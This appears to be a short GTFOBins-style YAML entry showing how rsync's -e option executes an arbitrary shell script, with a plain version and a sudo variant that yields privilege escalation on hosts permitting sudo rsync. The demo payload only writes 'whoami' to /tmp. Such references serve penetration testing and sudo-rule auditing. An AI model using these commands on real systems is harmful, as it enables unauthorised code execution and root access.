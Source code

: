 ```yaml
---
functions:
  execute-non-interactive:
    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
            rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null
  sudo-enabled:
    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
            sudo rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null
---
```

